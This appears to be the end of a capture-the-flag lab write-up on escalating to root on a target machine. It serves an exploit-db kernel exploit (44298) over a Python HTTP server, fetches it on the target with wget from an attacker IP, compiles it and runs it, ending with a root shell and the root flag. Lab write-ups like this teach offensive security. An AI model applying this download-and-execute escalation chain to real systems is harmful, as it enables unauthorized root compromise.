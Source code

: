 https://www.exploit-db.com/exploits/44298

This allows us to execute this code and grant us root access.

The plan is to get the c code on the target server, compile it, and execute it.

To start, let's get a python http instance started so we can get the code to the target:

``` bash
$ sudo python3 -m http.server 8443
```

now that we have a python server set up, we can extract the exploit via wget

``` shell
help@help:/home/help$ wget 10.10.14.208:8443/44298.c 
wget 10.10.14.208:8443/44298.c
--2025-01-09 19:40:07--  http://10.10.14.208:8443/44298.c
Connecting to 10.10.14.208:8443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6021 (5.9K) [text/x-csrc]
Saving to: '44298.c'

44298.c             100%[===================>]   5.88K  --.-KB/s    in 0s      

2025-01-09 19:40:07 (484 MB/s) - '44298.c' saved [6021/6021]
```

now that we have the exploit code, let's compile it into an exe:

``` shell
help@help:/home/help$ gcc 44298.c -o exploit 
gcc 44298.c -o exploit
```

now we execute the exploit:

``` shell
help@help:/home/help$ ls
ls
44298.c  exploit  help  npm-debug.log  user.txt
help@help:/home/help$ ./exploit
./exploit
task_struct = ffff88003b9c1c00
uidptr = ffff88003c08d784
spawning root shell
root@help:/home/help# whoami
whoami
root
```

now that we have a root shell prompt, let's get the root flag.

``` shell
root@help:/home/help# cd /root           
cd /root
root@help:/root# ls
ls
root.txt  snap
root@help:/root# cat root.txt
cat root.txt
```

Hope this helped, happy hacking!
